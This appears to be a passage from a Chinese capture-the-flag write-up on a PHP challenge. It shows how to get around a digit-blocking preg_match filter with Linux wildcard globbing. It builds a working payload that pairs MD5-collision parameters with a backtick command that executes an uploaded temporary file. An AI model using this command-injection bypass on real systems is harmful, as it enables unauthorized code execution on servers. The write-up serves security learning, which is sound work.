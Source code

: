 显然这里的preg_match只是多了一个@符号的限制，但是我们还是可以通过Linux的通配符来匹配的，如图：@的ASCII：

![image.png](img/f5408e99fff549418cf025febe49d204.png)

那么根据题目中的过滤0-9，我们可取的也就是@与数字9中间的特殊符号：

![image.png](img/e6a5aa9d25bd8ef83773a5fe6ca20c76.png)

这里笔者取“>”，完整的正则写为[>-[]。

构造Payload：

> x=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&y=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2&code=`.%20/???/????????[\>-[]`

如图：

![image.png](img/f17ef65300686dde667d60500c5f860d.png)
